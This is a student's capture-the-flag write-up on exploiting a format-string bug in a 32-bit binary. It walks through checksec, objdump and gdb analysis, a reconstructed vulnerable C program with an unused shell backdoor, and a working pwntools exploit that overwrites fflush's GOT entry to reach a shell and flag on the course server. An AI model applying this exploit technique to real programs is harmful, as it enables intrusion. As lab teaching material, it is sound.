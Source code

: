 # FSI-CTFS: FinalFormat
 
#### Exploit created by José Miguel Isidro (up202006485)
The **FinalFormat** CTF was a continuation of the format strings CTFs done in lab classes, but this was the ultimate challenge.

#### **Checksec**

Let's start by checking if the program as any security features enabled.

![](/FinalFormat/imgs/checksec.png)

The checksec returned the same as both of week #7 CTFs
- Architecture is x86
- Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- No address randomization
- Regions in the memory with RWX permissions

### **Reverse Engeneering the Program** [(main.c)](/FinalFormat/main.c)
> This time, we did not have access to the program's code, contrary to our lab lessions. But using objdump and gdb, we could try to reverse engineer the program in order to find what the original code might have been.

> By perfoming the following command in bash, we can disassemble the program and find out its code and functions (output shown below)
```bash
objdump -d program
```

![](/FinalFormat/imgs/objdump_d.png)

Now, we know there is a main function with a similiar code to the last ctf challenge's function, and we also have found an old_backdoor function containing a system call to open a bash shell. So now, we have an idea of what the original code was like, and I believe it might have looked something like the following code below.

```c
#include <stdio.h>
#include <stdlib.h>

void old_backdoor() {
  puts("Backdoor activated");
  system("/bin/bash");
  return;
}

int main() {
  char buffer[60];
  
  printf("There is nothing to see here...");
  fflush(stdout);
  scanf("%32s", &buffer);
  printf("You gave me this:");
  printf(buffer);
  fflush(stdout);

  return 0;
}
```

So, as you can see, the printf call is still vulnerable to a format string attack. The main difference here is that the shellcode is no longer inside the main function and is insteade wrapped in the old_backdoor function. And the program never calls this function. So how could we access it?


We have learned with the last ctf challenge that we can write arbitrary code by abusing the printf function format string vulnerability, specifically with the help of the %n format string parameter. 
>Quoting the famous printf bugs' section of its man page:
```
"Code such as printf(foo); often indicates a bug, since foo may contain a % character.  If foo comes  from  
untrusted  user  input,  it may contain %n, causing the printf() call to write to memory and creating a security hole."
```
So now we know we can write to memory by abusing this vulnerability. But what can we do if the program never even calls the old_backdoor function?

### **Exploitation**

We will redirect the code execution to our old_backdoor function, changing the inital flow of the program. We can do this by overwriting the fflush address for the GLIBC with the address for the old_backdoor function.
> Therefore, we need to found out the fflush address for the GLIBC.

By perfoming the same command in bash as we did before, but this time using the -R (-R, --dynamic-reloc  Display the dynamic relocation entries in the file), we can find out the fflush address (output shown below)
```bash
objdump -R program
```

![](/FinalFormat/imgs/objdump_R.png)

> fflush GBLIC -> 0x0804c010

The hardest part was coming up a payload to do this, but then I found out you don't even have to write the payload yourself. With the help of the pwn library, this exploit becomes unbelievably easy! But first, let's get the last address we need with the help of gdb.


>Let's disassemble the old_backdoor function and find out its address (**WHAT** we want to write).
```gdb
disassemble old_backdoor
```

![](/FinalFormat/imgs/disas_backdoor.png)

> old_backdoor function -> 0x08049236

Now that we have our addresses, we just need to write the exploit. After searching online, I found out the [pwn](https://docs.pwntools.com/en/stable/fmtstr.html) library has some great funcions that makes this part very easy to do. But first, we'll need to find out what the offset is before we write anything to memory.
> This can be achieved with help of this [script](/FinalFormat/offset.py):

```python
from pwn import *

def exec_fmt(payload):
     p = process("./program")
     p.sendline(payload)
     return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
```
The script will then print out the offset, which in this case was 1, so I manually typed that in.

### **The Exploit** [exploit.py](/FinalFormat/exploit.py)

Now that we found out the offset, we can use the fmtstr_payload function from the pwn library to help us write our payload.
> This is the python script used for the exploit.
```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4007)

what = 0x08049236 # old_backdoor function
where = 0x0804c010 # fflush@GLIBC_2.0
offset = 1

payload = fmtstr_payload(offset, {where: what})
p.recvuntil(b"...")
p.sendline(payload)
p.interactive()
```

As you can see, the 'what' and 'where' variables were used to store the addresses we found out before and the 'offset' was also used as a parameter in the **fmtstr_payload** function.
> After testing the script locally, we were granted with a shell.

![](/FinalFormat/imgs/exploit_local.png)

> Now, let's test it on the ctf server (change the LOCAL variable to False).

![](/FinalFormat/imgs/exploit_server.png)

> **SUCCESS!** We can now print the flag using /bin/cat --> flag{a48b2ab48ea9270fc5ba928b8bab50a9}